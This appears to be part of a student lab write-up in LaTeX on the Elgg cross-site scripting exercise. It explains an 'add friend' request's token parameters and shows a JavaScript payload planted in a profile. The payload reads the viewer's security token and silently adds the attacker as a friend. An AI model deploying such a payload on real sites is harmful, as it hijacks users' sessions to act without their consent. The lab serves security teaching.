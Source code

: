 \documentclass[a4paper,11pt]{article}
\begin{document}
First, we observe the add friend request, as shown in Figure \ref{fig:task9.1}, the request is a GET request, and the parameters is \verb|friend=47| as well as the token and ts. 
\begin{enumerate}
    \item The friend parameter represents the friend number of the added friend.
    \item \_elgg\_ts is a timestamp used to verify the timeliness of the token.
    \item \_elgg\_token is the actual token value, used to verify the user's identity and permissions.
\end{enumerate}
So we fill in the sendURL to the script, as shown in Listing \ref{lst:task9} and modify Samy's profile shown in \ref{fig:task9.2}. 
\begin{figure}[h]
    \centering
    \hfill
    \hfill
    \caption{Observations}\label{fig:task9-1}
\end{figure}
\begin{lstlisting}[caption={POST HTML},label={lst:task9},language=HTML,breaklines=true]
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the HTTP request to add Samy as a friend.
var sendurl='http://www.xsslabelgg.com/action/friends/add?friend=47'+ts+token;
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET",sendurl,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
Ajax.send();
}
</script>
\end{lstlisting}
\end{document}
